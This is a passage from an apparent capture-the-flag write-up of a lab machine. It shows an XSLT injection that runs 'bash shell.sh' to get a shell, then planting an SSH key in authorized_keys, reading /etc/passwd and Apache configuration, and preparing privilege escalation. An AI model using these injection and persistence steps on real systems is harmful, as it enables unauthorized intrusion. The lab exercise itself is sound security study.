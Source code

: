 ```
[...]
<xsl:variable name="cmd"><![CDATA[bash shell.sh]]></xsl:variable>
[...]
```

After searching for that same ticket again, I got a connection back.

![](/assets/images/htb-writeup-quick/image-20200425202811702.png)

```
$ cd /home/sam
$ ls
esigate-distribution-5.2
shell.sh
user.txt
$ cat user.txt
66246c9fe[...]
```

I dropped my SSH public key to `/home/sam/.ssh/authorized_keys` so I could log in directly with a proper SSH shell.

## Privesc to user srvadm

The box has two users:

- sam
- srvadm

```
sam@quick:~$ tail -n 5 /etc/passwd
pollinate:x:109:1::/var/cache/pollinate:/bin/false
sshd:x:110:65534::/run/sshd:/usr/sbin/nologin
sam:x:1000:1000:sam:/home/sam:/bin/bash
mysql:x:111:115:MySQL Server,,,:/nonexistent:/bin/false
srvadm:x:1001:1001:,,,:/home/srvadm:/bin/bash
sam@quick:~$ ls -l /home
total 8
drwxr-xr-x 7 sam    sam    4096 Apr 26 00:18 sam
drwxr-xr-x 6 srvadm srvadm 4096 Mar 20 06:37 srvadm
```

I looked at the Apache configuration file `/etc/apache2/sites-enabled/000-default.conf` and saw that there's a website listing on port 80 with a different domain name: `printerv2.quick.htb`. The AssignUserId config statement indicated this server is running as the `srvadm` user.

```
<VirtualHost *:80>
	AssignUserId srvadm srvadm
	ServerName printerv2.quick.htb
	DocumentRoot /var/www/printer
</VirtualHost>
```
